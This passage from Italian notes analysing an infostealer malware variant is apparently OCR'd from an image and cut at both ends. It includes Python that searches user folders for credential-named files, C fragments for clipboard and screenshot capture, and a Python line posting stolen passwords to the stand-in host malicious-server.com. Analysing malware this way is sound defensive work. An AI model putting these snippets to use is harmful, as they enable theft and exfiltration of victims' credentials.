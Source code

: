      ```python
     import os
     keywords = ["password", "confidential", "bank", "credentials"]
     for root, dirs, files in os.walk("C:\\Users\\"):
         for file in files:
             if any(keyword in file.lower() for keyword in keywords):
                 print("Trovato:", file)
     ```

4. **Clipboard Spying**

   - Il malware monitora la clipboard per **estrarre dati copiati**, incluse password o chiavi crittografiche.

   - Funzione C:

     ```c
     OpenClipboard(NULL);
     HANDLE hData = GetClipboardData(CF_TEXT);
     ```

5. **Cattura Screenshot Automatica**

   - Il malware può **registrare lo schermo** ogni X minuti per catturare informazioni sensibili.

   - Usa GDI+ per catturare lo schermo:

     ```c
     HDC hScreen = GetDC(NULL);
     HBITMAP hBitmap = CreateCompatibleBitmap(hScreen, width, height);
     ```

------

## **📌 3️⃣ Come la Variante Esfiltra i Dati**

### **🔎 Esfiltrazione tramite C2**

- Il malware invia dati raccolti al server C2 via:
  - **HTTP POST** (mascherandolo come traffico legittimo)
  - **FTP Upload** (trasferimento dati a un server remoto)
  - **Tor Hidden Services** (per evitare il rilevamento)

**Codice per HTTP POST con dati rubati:**

```python
import requests
data = {"user": "victim", "passwords": stolen_data}
requests.post("http://malicious-server.com/collect", data=data)
```

### **🔎 Esfiltrazione via Telegram Bot**

- Il malware può usare un 

  bot Telegram
